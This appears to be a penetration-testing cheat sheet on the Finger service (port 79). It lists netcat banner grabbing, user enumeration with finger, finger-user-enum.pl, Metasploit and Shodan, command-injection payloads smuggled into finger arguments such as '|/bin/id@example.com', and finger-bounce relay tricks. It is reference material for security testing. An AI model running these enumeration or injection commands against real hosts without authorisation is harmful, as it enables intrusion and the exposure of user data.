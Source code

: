79 - Pentesting Finger
Basic Info

Finger is a program you can use to find information about computer users. It usually lists the login name, the full name, and possibly other details about the user you are fingering. These details may include the office location and phone number (if known), login time, idle time, time mail was last read, and the user's plan and project files.

Default port: 79

PORT   STATE SERVICE
79/tcp open  finger

Enumeration
Banner Grabbing/Basic connection

nc -vn <IP> 79
echo "root" | nc -vn <IP> 79

User enumeration

finger @<Victim>       #List users
finger admin@<Victim>  #Get info of user
finger user@<Victim>   #Get info of user

Alternatively you can use finger-user-enum from pentestmonkey, some examples:

finger-user-enum.pl -U users.txt -t 10.0.0.1
finger-user-enum.pl -u root -t 10.0.0.1
finger-user-enum.pl -U users.txt -T ips.txt

Nmap execute a script for doing using default scripts
Metasploit uses more tricks than Nmap

use auxiliary/scanner/finger/finger_users

Shodan

    port:79 USER

Command execution

finger "|/bin/id@example.com"
finger "|/bin/ls -a /@example.com"

Finger Bounce

​Use a system as a finger relay​

finger user@host@victim
finger @internal@external
